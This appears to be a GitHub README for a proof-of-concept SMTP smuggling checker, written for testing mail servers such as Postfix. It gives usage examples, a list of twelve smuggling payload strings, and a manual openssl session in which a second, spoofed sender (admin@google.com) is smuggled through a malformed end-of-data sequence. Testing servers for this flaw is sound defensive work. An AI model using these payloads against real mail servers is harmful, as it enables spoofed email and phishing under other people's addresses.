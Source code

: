 # smtp_smuggling_checker.py
### smtp smuggling testing tool with tls / starttls support

### Infos:
> [!NOTE]
https://www.postfix.org/smtp-smuggling.html
> 
> https://sec-consult.com/blog/detail/smtp-smuggling-spoofing-e-mails-worldwide/

<hr>

## How to use:

```python
       _____  __  ___ ______ ____     _____                                  __               ____   ____   ______
      / ___/ /  |/  //_  __// __ \   / ___/ ____ ___   __  __ ____ _ ____ _ / /___   _____   / __ \ / __ \ / ____/
      \__ \ / /|_/ /  / /  / /_/ /   \__ \ / __ `__ \ / / / // __ `// __ `// // _ \ / ___/  / /_/ // / / // /     
     ___/ // /  / /  / /  / ____/   ___/ // / / / / // /_/ // /_/ // /_/ // //  __// /     / ____// /_/ // /___   
    /____//_/  /_/  /_/  /_/       /____//_/ /_/ /_/ \__,_/ \__, / \__, //_/ \___//_/     /_/     \____/ \____/   
                                                           /____/ /____/                                          
    
    SMTP Smuggle PoC Script v0.1 for checking mailservers - 2024 - by suuhmer

    
usage: smtp_poc.py [-h] [--server SERVER] [--port PORT] [--user USER] [--rcpt RCPT] [--mode MODE] [--forcetls]

Test you mailserver for SMTP Smuggle /w STARTTLS und AUTH PLAIN login.

options:
  -h, --help       show this help message and exit
  --server SERVER  SMTP-(Servername, Domain or IP
  --port PORT      SMTP-Serverport (Use 5870000 for 587 NOSSL-FALLBACK)
  --user USER      SMTP-userername
  --rcpt RCPT      rcpt address
  --mode MODE      Rawmode = raw or Default = def
  --forcetls       Force connection via SSL/TLS

```


#### Run the script like this:

```bash
# Example : You have to setup the Parameters with the right values!

# Sending via extern SMTP server with STARTTLS support and PLAIN AUTH login (The asking for password will prompt!):
.\smtp_smuggler_poc.py --server mail.server.com --port 587 --user user@yourserver.com --rcpt vic@yourserver.com --mode def --forcetls

# Sending via local SMTP server with STARTTLS forced on port 25 and default login credential in RAW sending mode (telnet socket mode):
.\smtp_smuggler_poc.py --server localhost --port 25 --rcpt vic@yourserver.com --mode raw --forcetls
```

<hr>

> [!NOTE]
> ### Beware this is alpha POC !! tested with postfix and python3
>
> 
<hr>

### Testing of postfix mailserver for example (localhost port 25 auth plain login (optional)):
![grafik](https://github.com/suuhm/smtp_smuggling_checker.py/assets/11504990/f46c47ed-8cd7-4395-9d2e-12589a505e21)

<hr>

### Testing these 12 payload strings:
##### Smgggling Strings (0-11):

- 0 - smtp_smuggle_escape = '\r\n.\r'
- 1 - smtp_smuggle_escape = '\r.\r'
- 2 - smtp_smuggle_escape = '\r\n\x00.\r'
- 3 - smtp_smuggle_escape = '\r\n\x00.\n'
- 4 - smtp_smuggle_escape = \r\n\x00.\r\n
- 5 - smtp_smuggle_escape = \r\n.\x00\r\n
- 6 - smtp_smuggle_escape = '\r\n.'
- 7 - smtp_smuggle_escape = \n.\r\n
- 8 - smtp_smuggle_escape = \r.\r\n
- 9 - smtp_smuggle_escape = \n\n.\r\n
- 10 - smtp_smuggle_escape = \r\n.\r
- 11 - smtp_smuggle_escape = \n.\n

<hr>


### Using telnet / openssl client for TLS

```bash
# Get base64 auth String:
# echo -n -e "\000info@myserver.com\000MYPASSWORD" | base64
#

openssl s_client -starttls smtp -crlf -connect mail.myserver.com:587 -tls1_2

EHLO myserver.com

AUTH PLAIN <YOU_BASE_64_STRING>

mail From: info@myserver.com

rcpt To: test@google.de

DATA
354 End data with <CR><LF>.<CR><LF>
From: test <it@google.de>
To: bla <jadu@foo.de>
Subject: Test1
bodyy Test1
<CR><LF>.<CR>
mail From: admin@google.com
rcpt To: jadu@foo.de
data
From: hallo admin <it@google.de>
To: gege <jadu@aniwe.de>
Subject: hallooooo
bodyyhacked
<CR><LF>.<CR><LF>
```


